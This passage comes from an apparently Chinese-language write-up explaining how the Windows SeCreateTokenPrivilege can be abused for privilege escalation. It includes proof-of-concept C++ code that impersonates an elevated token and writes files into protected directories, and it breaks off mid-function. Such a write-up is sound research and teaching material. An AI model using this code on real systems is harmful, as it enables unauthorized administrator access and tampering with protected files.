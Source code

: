 ```c++

    return status;
}
```

### Impersonate The Elevated Token

接着，会调用 `SetThreadToken()` 函数将当前线程的令牌替换为新生成的令牌，如下所示。

```c++
hThread = GetCurrentThread();

if (!SetThreadToken(&hThread, pElevatedToken))
{
    wprintf(L"[-] SetThreadToken Error: [%u].\n", GetLastError());
    return 0;
}
wprintf(L"\n[*] Successfully impersonated the elevated token.\n");
```

到这里，我们就已经获取了本地管理员权限了，写入受保护目录、并写入/覆盖注册表项等特权操作都是轻而易举。

### Write To Protected Directory

在我的 POC 中，我编写了 `ExploitSeCreateTokenPrivilege()` 函数，用于将指定文件写入受保护目录，如下所示。

```c++
BOOL ExploitSeCreateTokenPrivilege(LPCWSTR sourceFile, LPCWSTR destFile)
{
    BOOL status = FALSE;
    HANDLE hSource, hDestination;
    char buffer[SIZE + 1];
    DWORD dwBytesRead, dwBytesWrite;

    if (sourceFile && destFile)
    {
        // Open source file.
        hSource = CreateFileW(sourceFile, GENERIC_READ, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
        if (hSource == INVALID_HANDLE_VALUE)
        {
            wprintf(L"[-] Could not open source file by CreateFileW: [%u].\n", GetLastError());
            return status;
        }
        // Create destination file.
        hDestination = CreateFileW(destFile, GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
        if (hDestination == INVALID_HANDLE_VALUE)
        {
            wprintf(L"[-] Could not create destination file by CreateFileW: [%u].\n", GetLastError());
            return status;
        }
        // Read from source file.
        if (!ReadFile(hSource, buffer, SIZE, &dwBytesRead, NULL))
        {
            wprintf(L"[-] ReadFile Error: [%u].\n", GetLastError());
            return status;
        }
        wprintf(L"[*] Read bytes from %ws: %d\n", sourceFile, dwBytesRead);
        // Write to destination file.
        if (!WriteFile(hDestination, buffer, dwBytesRead, &dwBytesWrite, NULL))
        {
            wprintf(L"[-] WriteFile Error: [%u].\n", GetLastError());
            return status;
```